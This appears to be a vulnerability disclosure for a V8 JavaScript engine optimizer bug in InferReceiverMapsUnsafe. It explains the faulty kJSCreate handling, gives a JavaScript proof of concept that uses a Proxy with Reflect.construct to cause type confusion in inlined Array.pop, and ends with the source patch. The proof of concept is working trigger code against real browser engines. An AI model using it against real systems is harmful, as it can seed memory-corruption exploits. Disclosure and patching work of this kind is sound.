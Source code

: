 > On a high level, the InferReceiverMapsUnsafe function traverses the effect chain until it finds the node creating the object in question and, at the same time, marks the result as unreliable if it encounters a node without the kNoWrite flag [2], indicating that executing the node could have side-effects such as changing the Maps of an object. There is a mistake in the handling of kJSCreate [3]: if the object in question is not the output of kJSCreate, then the loop continues *without* marking the result as unreliable. This is incorrect because kJSCreate can have side-effects, for example by using a Proxy as third argument to Reflect.construct. The bug can then for example be triggered by inlining Array.pop and changing the elements kind from SMIs to Doubles during the unexpected side effect.

---

```js
//Proof-of-Concept:
  
ITERATIONS = 10000;
TRIGGER = false;
  
function f(a, p) {
    return a.pop(Reflect.construct(function() {}, arguments, p));
}
  
let a;
let p = new Proxy(Object, {
    get: function() {
        if (TRIGGER) {
            a[2] = 1.1;
        }
        return Object.prototype;
    }
});
for (let i = 0; i < ITERATIONS; i++) {
    let isLastIteration = i == ITERATIONS - 1;
    a = [0, 1, 2, 3, 4];
    if (isLastIteration)
        TRIGGER = true;
    print(f(a, p));
}
```
  
## Patch

```diff
diff --git a/src/compiler/node-properties.cc b/src/compiler/node-properties.cc
index 7ba3a59f6f..4729323c8f 100644
--- a/src/compiler/node-properties.cc
+++ b/src/compiler/node-properties.cc
@@ -447,6 +447,8 @@ NodeProperties::InferReceiverMapsResult NodeProperties::InferReceiverMapsUnsafe(
           }
           // We reached the allocation of the {receiver}.
           return kNoReceiverMaps;
+        } else {
+            result = kUnreliableReceiverMaps;
         }
         break;
       }
```
  